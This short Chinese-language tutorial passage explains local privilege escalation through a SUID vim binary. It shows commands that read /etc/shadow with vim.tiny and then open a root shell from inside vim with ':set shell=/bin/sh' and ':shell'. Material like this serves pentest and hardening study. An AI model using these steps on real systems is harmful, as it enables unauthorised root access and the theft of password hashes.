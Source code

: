 Vim的主要用途是用作文本编辑器， 但是，如果以SUID运行，它将继承root用户的权限，因此可以读取系统上的所有文件。
```
# 直接查看 shadow 文件会报错
cat /etc/shadow
cat: /etc/shadow: Permission denied
```
```
# 使用vim.tiny编辑成功
vim.tiny /etc/shadow
```

此外，我们还可以通过Vim运行shell来执行只有root才能完成的操作。


vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell

